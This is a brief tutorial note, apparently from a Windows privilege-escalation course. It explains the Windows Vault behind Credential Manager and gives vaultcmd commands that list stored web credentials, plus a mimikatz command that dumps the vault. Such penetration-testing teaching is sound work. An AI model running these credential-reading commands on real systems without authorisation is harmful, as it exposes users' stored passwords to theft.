 ## Windows Vault

The `Credential Manager` feature uses as the underlying storage mechanism the `Windows Vault`, which is a store capable of managing encrypted data.

While the credential manager is accessed using `cmdkey`, the windows vault instead can be accessed using `vaultcmd`.

---

Enumerate vaults:
```cmd
vaultcmd /list
```

List entries saved in vault:
```cmd
vaultcmd /listcreds:"Web Credentials" /all
```

Dump vault with mimikatz:
```cmd
mimikatz.exe vault::list
```

---
## References

Credential Manager Store: https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-R2-and-2012/hh994565(v=ws.11)

cmdkey documentation: https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/cmdkey

Course Material: https://github.com/LeonardoE95/yt-en/blob/main/src/2024-12-13-windows-privesc-stored-credentials/content/notes.txt

